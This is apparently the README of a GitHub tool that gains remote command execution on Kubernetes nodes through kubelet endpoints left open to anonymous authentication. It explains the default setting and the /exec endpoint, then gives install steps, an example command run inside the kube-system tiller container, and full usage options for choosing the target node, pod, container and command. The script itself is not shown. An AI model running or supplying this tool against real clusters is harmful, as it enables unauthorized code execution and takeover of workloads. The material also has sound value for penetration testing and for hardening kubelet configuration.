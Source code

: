 # Kubelet Anonymous RCE

>Executes commands on a kubelet endpoint that allows anonymous authentication (default)

## Why?

By default `kubelet` allows anonymous authentication:

```
--anonymous-auth
    Enables anonymous requests to the Kubelet server. Requests that are not
    rejected by another authentication method are treated as anonymous
    requests. Anonymous requests have a username of system:anonymous, and a
    group name of system:unauthenticated. (default true)
```

The `kubelet` API is not documented but the [code](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) is straightforward.

There is a `/exec` endpoint which allows running a command in a target container and returns a link to fetch the output.

The link is a stream that should be read with a websocket.

This script handles it all easily.

## Install

```
$ git clone https://github.com/serain/kubelet-anon-exec.git
$ cd kubelet-anon-exec
$ pip3 install -r requirements.txt
```

## Example

This command runs `ls /tmp` in the `tiller` container and returns the output:

```
$ python3 kubelet-anon-rce.py           \
          --node 10.1.2.3               \
          --namespace kube-system       \
          --pod tiller-797d1b1234-gb6qt \
          --container tiller            \
          --exec "ls /tmp"
```

## Usage

```
$ python kubelet-anon-exec.py --help
usage: kubelet-anon-exec.py [-h] [--port PORT] -t TARGET -n NAMESPACE -p POD
                            -c CONTAINER -x EXEC

Run commands against a Kubelet endpoint.

optional arguments:
  -h, --help            show this help message and exit
  --port PORT           endpoint port, default: 10250
  -t TARGET, --target TARGET
                        Kubernetes node IP address
  -n NAMESPACE, --namespace NAMESPACE
                        namespace, ie: 'default'
  -p POD, --pod POD     pod name, ie: 'dh-nginx-8484b69674-z9tzl'
  -c CONTAINER, --container CONTAINER
                        container name, ie:'nginx'
  -x EXEC, --exec EXEC  command to execute, ie: 'ls /tmp'
```
